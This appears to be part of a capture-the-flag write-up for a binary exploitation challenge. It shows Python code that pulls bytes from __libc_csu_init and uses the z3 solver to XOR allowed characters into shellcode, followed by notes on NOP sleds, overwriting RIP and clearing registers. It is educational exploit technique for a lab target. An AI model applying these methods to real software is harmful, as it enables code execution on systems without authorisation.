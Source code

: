 I had to keep in mind that we only have access to a certain range so used this to cycle through csu_init and grab only the bytes we have access to
```python 
for i in range(0x31, 0x50 ):
    if i in opts:
        csu.append((u8(p.bv.read( p.bv.symbols['__libc_csu_init'][0].address+i, 1))))
    else:
        csu.append(0)
```

This gave us a pretty nice range of opcodes, in the end, we had all of these

```python 
csu = [0x74, 0x1B, 0x31, 0xDB, 0xF, 0x1F, 0x0, 0x4C, 0x89, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x41, 0xFF, 0x14, 0xDF, 0x48, 0x83, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0]
opts= b"0123456789ABCDEF"
```

Manually finding a valid combination to get shellcode bytes worried me but z3 came to the rescue, surprisingly this worked for all the bytes.
```python 
import z3
def find_valid(target : int):
    s = z3.Solver()
    x = z3.BitVec('x', 32)
    y = z3.BitVec('y', 32)

    s.add( z3.Or([ x ==i for i in csu + [ a for a in opts] ]))

    s.add( z3.Or([ y ==i for i in csu + [ a for a in opts] ]))

    s.add(x ^ y== target)
    print(s.check())
    print(s.model())
    return (s.model()[x].as_long(), s.model()[y].as_long())
```


With these two in hand, we could construct a shellcode that would xor the output from find_valid and then move it after the end of the shellcode. Hence after this setup, it would have a fake nop sled until it hit our shellcode.

<h3>Things to Note:</h3>

- Lists in python are 0-based, the indexes into the csu might be one-off depending on how you add the values. Adding a 0 to pad the beginning of the csu array fixed this.
- The original csu xor optode didn't work as XORing eax would result in the upper bits of rax also getting nulled out. Without the upper bits of rax the nop sled would be invalid. Luckily the single byte version was also valid shellcode

    `xor eax, DWORD PTR [rbx+0x30]`

    `xor al, BYTE PTR [rbx+0x30]`

- The read will read into the beginning of our shellcode, so we need to have a nop sled so we overwrite the current RIP.
- After each write rax needs to be accounted for or cleared out, z3 either needs to know the old rax value or we could just rexor as x ^ y ^x ^y is still 0.
- Using 0 as padding in csu was a bad idea but hard coding in the csu index of null fixes this.
